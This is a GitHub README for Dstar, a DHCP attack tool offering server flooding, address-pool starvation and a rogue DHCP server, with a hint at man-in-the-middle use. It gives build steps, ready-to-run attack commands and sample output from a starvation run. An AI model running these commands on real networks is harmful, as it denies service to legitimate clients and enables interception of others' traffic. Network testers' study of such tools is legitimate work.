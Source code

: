 ![](https://img.shields.io/badge/Language-C++-orange.svg)
![](https://img.shields.io/badge/version-1.0.0-green.svg)
[![GPLv3 License](https://img.shields.io/badge/License-GPLv3-blue.svg)](http://www.gnu.org/licenses/gpl-3.0.html)

# Dstar #
This tool implement various DHCP attacks and can be used to make experiments and test on __your network__!

Supported features:
- Flood -> Flood DHCP server with large amount of DHCP discover message (this attack not acquire addresses!)
- Starvation -> Try to acquire all addresses in DHCP pool, you can use this option with a rogue DHCP server... MITM? ;)
- Built-in rogue DHCP server

# Setting up dstar #

First of all getting the code from repository:

    $ git clone https://github.com/jacopodl/dstar

Compile it with followings command:

    $ cd dstar
    $ git submodule init && git submodule update
    $ cmake .
    $ make

Or if you are very busy:

    $ ./build.sh

# Usage example #
Flood DHCP server with discover messages:

    $ sudo ./dstar %interface% --flood

Exhaust DHCP pool and release all addresses on exit:

    $ sudo ./dstar %interface% --starvation

without release addresses:

    $ sudo ./dstar %interface% --starvation --no-release
    
Setting up rogue DHCP server with the stolen addresses:

    $ sudo ./dstar %interface% --starvation --server

Getting help with:

    $ ./dstar --help
    
# Action snapshot #

    $ sudo ./dstar %interface% --starvation

    @@@@@@@    @@@@@@   @@@@@@@   @@@@@@   @@@@@@@
    @@@@@@@@  @@@@@@@   @@@@@@@  @@@@@@@@  @@@@@@@@
    @@!  @@@  !@@         @@!    @@!  @@@  @@!  @@@
    !@!  @!@  !@!         !@!    !@!  @!@  !@!  @!@
    @!@  !@!  !!@@!!      @!!    @!@!@!@!  @!@!!@!
    !@!  !!!   !!@!!!     !!!    !!!@!!!!  !!@!@!
    !!:  !!!       !:!    !!:    !!:  !!!  !!: :!!
    :!:  !:!      !:!     :!:    :!:  !:!  :!:  !:!
     :::: ::  :::: ::      ::    ::   :::  ::   :::
    :: :  :   :: : :       :      :   : :   :   : :
                                                     vX.x.x
    
    
    [<---] DHCP DISCOVER
    [--->] DHCP OFFER
    [<---] DHCP REQUEST
    [--->V] DHCP ACK
    	Ip:192.168.1.99 - MAC:52:c5:b9:35:0c:42 lease(s):21600
    
    [<---] DHCP DISCOVER
    [--->] DHCP OFFER
    [<---] DHCP REQUEST
    [--->V] DHCP ACK
    	Ip:192.168.1.118 - MAC:12:3c:09:28:ac:cb lease(s):21600
    
    [<---] DHCP DISCOVER
    ^CStopping...
    Releasing addresses...
    All done!
